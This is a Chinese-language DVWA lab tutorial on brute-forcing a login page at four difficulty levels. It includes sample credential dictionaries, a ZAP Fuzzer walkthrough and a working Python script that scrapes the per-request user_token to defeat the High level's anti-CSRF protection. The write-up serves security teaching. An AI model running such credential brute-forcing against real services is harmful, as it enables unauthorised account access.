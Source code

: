 
暴力破解通常是用手工或者工具的方法对一个网站的登陆页面不断尝试各种用户名和密码的组合，直到能试出正确的一个组合。

DVWA的暴力破解难度等级分为四个 ：

- LOW：这一等级并没有对暴力破解做任何的防护，只需不断尝试即可破解。
- Medium: 这一等级是在LOW的基础上做了一点防护，当用户名和密码输错后会让用户在两秒后才能进行下一步的尝试。
- High:这一等级相比前两个等级有了较大的难度，在每次登陆时会带一个token字段发送到服务器端，服务器端会验证用户名，密码和token是否正确，正确才能登陆。token字段是随机生成的，当不了解使用何种算法生成token时是不能进行暴力破解的。
- Impossible: 这一等级DVWA在连续三次输错用户名和密码后会锁定15分钟，15分钟后才能尝试。这样的设定就无法进行暴力破解了。

## 字典

**暴力破解需要一本好的字典，字典越有针对性，破解过程越快。**
这里我们只是为了演示，就随便做了一个用户名的字典，一个密码的字典，字典内容如下：

用户名字典：

```text
admin
user
admin123
root
root123
administrator
```

密码字典：

```text
123456
root
admin123
password
qwerty
abcd1234
```

## LOW等级暴力破解

low等级的暴力破解比较简单，可以使用手工的方法在登陆页面不断进行尝试，但是这种方法用时会很长，这里我用用到了一款工具ZAP。
> OWASP Zed攻击代理（ZAP）是世界上最受欢迎的免费安全审计工具之一，由数百名国际志愿者积极维护。它可以帮助你在开发和测试应用程序时自动查找Web应用程序中的安全漏洞。
> 也可以说ZAP是一个中间人代理。它能够获取你对Web应用程序发出的所有请求以及你从中收到的所有响应。

ZAP的安装过程省略，提供一个ZAP的下载地址：[https://www.owasp.org/index.php/OWASP_Zed_Attack_Proxy_Project](https://www.owasp.org/index.php/OWASP_Zed_Attack_Proxy_Project)

### 设置浏览器代理

将其设置为ZAP所监听的端口，我设置的ZAP的端口为6666（默认端口为8080）。
所以需要设置浏览器的代理为：127.0.0.1:6666

浏览器端的设置代理的工具有很多，我用的是火狐浏览器，所用代理工具为“simpleProxy”。

![20190421213421.png](https://raw.githubusercontent.com/handbye/images/master/20190421213421.png)

设置好代理后，浏览器端的所有请求和响应都会被ZAP所捕捉到。

### 捕捉并分析请求

在DVWA上随便输入一个用户名和密码，点击登陆，然后在ZAP上查看捕捉到的数据包。

![20190421215720.png](https://raw.githubusercontent.com/handbye/images/master/20190421215720.png)

分析捕获到的请求数据报头，发现报头中会携带用户名和密码发送到服务器端，然后服务器端判断是否正确。此时我们就可以在ZAP上不断修改用户名和密码发送到服务器端，然后根据响应结果判断用户名密码是否正确。
ZAP提供的Fuzzer功能可以按照我们提供的字典修改请求头中的参数重复发送到服务器端。

![20190421220715.png](https://raw.githubusercontent.com/handbye/images/master/20190421220715.png)

参数设置好后就可以开始爆破了。

![20190421221327.png](https://raw.githubusercontent.com/handbye/images/master/20190421221327.png)

### 分析服务器返回的数据

![20190421222034.png](https://raw.githubusercontent.com/handbye/images/master/20190421222034.png)

分析数据包发现有一个数据返回的Body大小和其它的都不一样，于是怀疑这条数据是登陆成功后返回的，其它的都是登陆失败后返回的。毕竟正确的用户名和密码只有一个。
于是将此用户名和密码输入到DVWA上发现登陆成功。

![20190421223450.png](https://raw.githubusercontent.com/handbye/images/master/20190421223450.png)

## Medium等级暴力破解

Medium等级的暴力破解和LOW等级的暴力破解方法相同，只不过破解时间会变慢。在DVWA上查看源代码发现，每当输入错误的密码后，就会等待0-3秒才能进行下一次登陆。

```php
if( $result && mysqli_num_rows( $result ) == 1 ) {
        // Get users details
        $row    = mysqli_fetch_assoc( $result );
        $avatar = $row["avatar"];

        // Login successful
        echo "<p>Welcome to the password protected area {$user}</p>";
        echo "<img src=\"{$avatar}\" />";
    }
    else {
        // Login failed
        sleep( rand( 0, 3 ) );
        echo "<pre><br />Username and/or password incorrect.</pre>";
    } ;
```

此种方法只会延长暴力破解的时间，并不能阻止暴力破解。

## Hight等级暴力破解

和LOW等级一样，我们抓取Hight等级的请求数据包进行观察。

![20190422000439.png](https://raw.githubusercontent.com/handbye/images/master/20190422000439.png)

发现这个请求头比LOW等级的多了一个user_token参数，而且每次请求的user_token参数都是不同的。

我们必须找出这个user_token的值是从哪里来的，规律是什么才能进行下一步的暴力破解。
通过观察，我们发现在前端的HTML代码中，登陆框的form表单中有一个隐藏的input。

![20190422001159.png](https://raw.githubusercontent.com/handbye/images/master/20190422001159.png)

发现每次请求都会带上其中的value值进行发送，不断刷新网页，又发现这个value值是不断变化的。在不知道源码的情况下是无法推算出此value值的计算方法的。

这里我写一段python代码来进行破解，思路大概是每次登陆前先获取HTNL代码中的value值然后放入header头中去请求服务器，直到成功为止。也可以使用burpsuit进行破解，过程请参考：
[https://blog.csdn.net/liweibin812/article/details/86287645](https://blog.csdn.net/liweibin812/article/details/86287645)

代码如下：

```python
import requests
from bs4 import BeautifulSoup
import sys

#DVWA High等级暴力破解

#获取user_token值
header={
    'Host': '127.0.0.1',
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:66.0) Gecko/20100101 Firefox/66.0 Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
    'Accept-Language': 'zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2',
    'Accept-Encoding': 'gzip, deflate',
    'Referer': 'http://127.0.0.1/dvwa/vulnerabilities/brute/',
    'Connection': 'keep-alive',
    'Cookie': 'security=high; PHPSESSID=mtsel2kcb1a4uecf6b7e87aa23',
}

def get_user_token():
    # 获取DVWA登陆页面
    r = requests.get('http://127.0.0.1/dvwa/vulnerabilities/brute/',headers=header)
    rsp = r.text

    # 获取登陆表单中的value值
    soup = BeautifulSoup(rsp,'lxml')
    input_name = soup.find(attrs={'name':'user_token'})
    value = input_name['value']
    return  value


#读取用户名和密码字典
f1 = open('username.txt','r')
user_list = f1.readlines()
for i in range(0,len(user_list)):
    user_list[i] = user_list[i].rstrip('\n')
f1.close()

f2 = open('password.txt','r')
pass_list = f2.readlines()
for i in range(0,len(pass_list)):
    pass_list[i] = pass_list[i].rstrip('\n')
f2.close()

# value值即get请求头中的user_token
# 开始组合请求头并发送到服务器
for username in user_list:
    for password in pass_list:
        payload = {'username':username,'password':password,'Login':'Login','user_token':get_user_token()}
        r = requests.get('http://127.0.0.1/dvwa/vulnerabilities/brute/',headers=header,params=payload)
        rsp = r.text
        #判断是否登陆成功
        try:
            soup = BeautifulSoup(rsp,'lxml')
            error_text= soup.find(soup.pre.br.string)
            error_text = str(error_text)
            if 'incorrect' in error_text:
                print(username,password+'  '+'错误')
        except AttributeError:
            print(username,password+'  '+'正确')
            sys.exit() #找到正确密码就退出程序，不在往下执行
```